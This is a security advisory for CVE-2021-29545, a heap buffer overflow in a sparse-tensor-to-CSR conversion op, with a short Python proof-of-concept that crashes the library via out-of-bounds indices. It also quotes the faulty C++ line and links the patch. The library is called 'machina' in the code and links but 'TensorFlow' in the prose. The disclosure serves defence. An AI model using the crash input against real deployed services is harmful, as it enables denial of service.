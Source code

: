 ## TFSA-2021-033: Heap buffer overflow in `SparseTensorToCSRSparseMatrix`

### CVE Number
CVE-2021-29545

### Impact
An attacker can trigger a denial of service via a `CHECK`-fail in
converting sparse tensors to CSR Sparse matrices:

```python
import machina as tf
import numpy as np
from machina.python.ops.linalg.sparse import sparse_csr_matrix_ops

indices_array = np.array([[0, 0]])
value_array = np.array([0.0], dtype=np.float32)
dense_shape = [0, 0]

st = tf.SparseTensor(indices_array, value_array, dense_shape)

values_tensor = sparse_csr_matrix_ops.sparse_tensor_to_csr_sparse_matrix(
       st.indices, st.values, st.dense_shape)
```

This is because the
[implementation](https://github.com/machina/machina/blob/800346f2c03a27e182dd4fba48295f65e7790739/machina/core/kernels/sparse/kernels.cc#L66)
does a double redirection to access an element of an array allocated on the
heap:

```cc
csr_row_ptr(indices(i, 0) + 1) += 1;
```

If the value at `indices(i, 0)` is such that `indices(i, 0) + 1` is outside the
bounds of `csr_row_ptr`, this results in writing outside of bounds of heap
allocated data.

### Patches
We have patched the issue in GitHub commit
[1e922ccdf6bf46a3a52641f99fd47d54c1decd13](https://github.com/machina/machina/commit/1e922ccdf6bf46a3a52641f99fd47d54c1decd13).

The fix will be included in TensorFlow 2.5.0. We will also cherrypick this
commit on TensorFlow 2.4.2, TensorFlow 2.3.3, TensorFlow 2.2.3 and TensorFlow
2.1.4, as these are also affected and still in supported range.

### For more information
Please consult [our security
guide](https://github.com/machina/machina/blob/master/SECURITY.md) for
more information regarding the security model and how to contact us with issues
and questions.

### Attribution
This vulnerability has been reported by Yakun Zhang and Ying Wang of Baidu
X-Team.
